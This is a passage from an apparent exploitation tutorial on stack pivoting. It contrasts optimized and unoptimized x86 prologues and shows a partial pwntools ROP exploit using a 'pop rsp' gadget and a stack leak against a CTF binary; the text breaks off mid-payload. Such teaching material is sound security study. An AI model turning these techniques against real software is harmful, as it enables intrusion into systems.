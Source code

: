 ## EBP might not be used

As [**explained in this post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), if a binary is compiled with some optimizations, the **EBP never gets to control ESP**, therefore, any exploit working by controlling EBP sill basically fail because it doesn't have ay real effect.\
This is because the **prologue and epilogue changes** if the binary is optimized.

- **Not optimized:**

```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```

- **Optimized:**

```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```

## Other ways to control RSP

### **`pop rsp`** gadget

[**In this page**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) you can find an example using this technique. For this challenge it was needed to call a function with 2 specific arguments, and there was a **`pop rsp` gadget** and there is a **leak from the stack**:

```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
```